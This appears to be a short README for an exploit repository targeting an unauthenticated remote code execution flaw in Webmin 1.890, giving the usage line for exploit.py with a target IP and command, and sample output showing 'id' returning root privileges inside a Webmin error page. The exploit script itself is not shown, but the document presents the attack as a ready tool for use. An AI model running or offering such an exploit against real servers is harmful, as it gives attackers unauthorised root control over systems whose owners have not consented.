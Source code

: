 # WebMin-1.890-Unauthenticated-RCE

USAGE: python3 exploit.py [TARGET IP] [COMMAND]

Example Output:
python3 exploit.py 1**.2*.*.*** id

&lt;h1&gt;Error - Perl execution failed&lt;/h1&gt;
&lt;p&gt;Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
&lt;/p&gt;


  
